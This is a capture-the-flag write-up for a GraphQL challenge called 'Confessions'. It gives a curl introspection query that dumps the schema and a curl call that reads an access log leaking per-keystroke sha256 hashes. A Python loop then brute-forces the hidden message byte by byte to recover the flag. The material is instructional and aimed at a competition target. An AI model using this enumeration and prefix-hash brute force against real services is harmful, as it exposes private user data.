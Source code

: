 # Confessions
Confessions are sent and saved via graphql. Using payloadsallthethings, I dumped the schema
```
curl https://confessions.flu.xxx/graphql -XPOST -H 'content-type: application/json' -d '{"operationName":null,"query":"{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}","variables":{"id":"32ecd6ff-5324-46e2-8f6d-a28202269c60"}}'
```

I spotted an accessLog query, which allowed us to log access to the graphql endpoint, including adding new notes. However the messages were redacted, and we can only see the sha256 hashes of the messages. HOWEVER. A new confession is added on every keypress, meaning we can perform a byte-by-byte bruteforce:

```
curl https://confessions.flu.xxx/graphql -XPOST -H 'content-type: application/json' -d '{"operationName":null,"query":"{accessLog {name, args}}","variables":{"id":"32ecd6ff-5324-46e2-8f6d-a28202269c60"}}' | jq -r '.data.accessLog[] | .args' | grep hash | jq -r '.hash'
```
```py
hashes = output.split('\n')
import string
import hashlib
found = ''
while True:
    for c in string.printable:
        if hashlib.sha256(found.encode() + c.encode()).hexdigest() == hashes[len(found)]:
            found += c
            print(found)
            break
```
#### Flag:flag{but_pls_d0nt_t3ll_any1}
